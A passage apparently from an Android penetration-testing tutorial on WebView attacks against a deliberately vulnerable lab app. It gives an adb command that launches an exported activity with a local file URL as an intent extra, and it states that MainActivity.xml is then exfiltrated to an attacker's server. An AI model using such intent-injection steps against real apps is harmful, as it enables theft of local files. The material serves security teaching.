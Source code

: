     ```bash
    adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es reg_url "file:///sdcard/poc.html"
    ```
3. The contents of `MainActivity.xml` will be exfiltrated to the attacker's server.

### Resources

{% embed url="https://www.hackingarticles.in/android-penetration-testing-webview-attacks/" %}

